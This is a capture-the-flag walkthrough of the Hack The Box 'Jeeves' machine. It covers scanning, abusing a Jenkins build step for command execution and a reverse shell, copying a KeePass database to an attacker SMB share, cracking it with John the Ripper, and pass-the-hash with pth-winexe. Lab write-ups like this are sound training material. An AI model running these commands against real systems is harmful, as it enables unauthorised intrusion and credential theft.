<h1>HTB: Jeeves</h1>


| Field      | Details                                                          |
|------------|------------------------------------------------------------------|
| Platform   | [Hack The Box](https://app.hackthebox.com/machines/Jeeves)       |
| Difficulty | Medium                                                           |
| OS         | Windows                                                          |
| Author     | ByteFragment                                                     |
| Date       | June 25th 2026                                                   |

--- 

<h2>Reconnaissance</h2>

<h3>NMAP</h3>

Port scanning the target using nmap via the command:

```
sudo nmap -sT -sV -T4 10.129.228.112 -oN nmap
```

This gave me the open tcp ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap`.

From the nmap results we can see that the target machine is running an http server onf port 80, an smbshare on 445 and another http server on 50000 running `Jetty 9.4.z-SNAPSHOT`.

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-25 15:51 -0700
Nmap scan report for 10.129.228.112
Host is up (0.083s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows
```
<h3>Web Recon</h3>

Visiting the target ip on port 80 using firefox we see the homepage for `Ask Jeeves` which is a search engine from the lat 1990's to early 2000's.



Searching anything results in an error.html page:



Again using firefox we can visit the target ip on port 50000 to reveal a `HTTP ERROR 404` page:




<h2>Enumeration</h2>

Getting a 404 error when visiting the Jetty service on port 50000 tells us that the service is indeed running we are just not visiting the correct page. 

In order to find the correct page we will use the `GoBuster` web enumeration tool.

<h3>GoBuster</h3>

Using the command:
```
gobuster dir -u http://10.129.228.112:50000 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 25
```


We find that there is a `/askjeeves/` directory that when visited gives us the following dashboard:




<h2>Exploitation</h2>


<h3>Jenkins Item Build</h3>

Here we can create a new item which we will call `Test` and then select the `Freestyle project` option:



We are then given the option to configure the item including the option `Add build step` dropdown which has the option to `Execute Windows batch command`. Commands entered here will only execute when the item is being built.



This seems very promising so lets test it using the `whoami` command:



After clicking save and apply we can look at the builds `Console Output` and see that the `whoami` command was indeed ran!



From this we can see that the commands are being run as `jeeves\kohsuke` so the user `kohsuke` in the jeeves domain.

so we now have the ability to run arbitrary command on the target machine as the `kohsuke` user. Lets use this to gain a reverse shell!

For the reverse shell command we will use a bas64 encoded shell from [revshells](https://www.revshells.com/) a very useful website for generating reverse shell commands:



Then after setting up a `nc` listener and rebuilding the Jeeves item with this as the Windows Batch command we gain a reverse shell on the target machine:



The user flag can then be found in desktop dir of the kohsuke user!

<h2>Enumeration</h2>

Doing some file enumeration we find a `KeePass` .kdbx database file in `C:\Users\kohsuke\Documents`:



Lets trannsfer this file over to put attack machine by first setting up an smb server on our attack machine using the command:

```
impacket-smbserver test . -smb2support  -username test -password test
```

The on our target machine we run the following commands:

```
net use m: \\10.10.15.16\test /user:test test

copy CEH.kdbx m:\
```

Attempting to open this file we see it is protected using a master password:



Lets attempt to crack it using `John the Ripper`.

<h3>John the Ripper</h3>

We will first use the `keepass2john` tool to convert the KeePass database file into a format compatible with John the Ripper:

```
keepass2john CEH.kdbx >> CEH.hash
```

The hash is now in a format that John can recognize so we will ute the `john` command with the `rockyou.txt` password list to crack the hash:



With this we can now unlock the KeePass database:



<h2>Escalation</h2>

There are multiple passwords in this file but the most interesting is the `Backup stuff` password as it is an NTLM hash. Now it is common for administrators to use the same credentials for backup accounts so lets try to login as the Administrator using a `PassTheHash` attack.

<h3>pth-winexe</h3>

Using the `pth-winexe` tool we can gain a shell as the Administrator user by running the following command:

```
pth-winexe -U jeeves/Administrator%********************** //10.129.228.112 cmd
```



In the administrators desktop dir we find a file called `hm.txt` which does not contain the flag but states that:

```
The flag is elsewhere.  Look deeper.
```

To get the flag one has to be aware of the concept of [alternate data streams](https://www.ninjaone.com/blog/alternate-data-streams/) and how to view/access them.

Using the command:

```
dir \R
```

We can view the files in the directory along with any alternate data streams associated with these files.



In order to view the `root.txt` stream we have to run the command:

```
powershell Get-Content -Path "hm.txt" -Stream "root.txt"
```

Thus obtaining the root flag and solving the challenge:

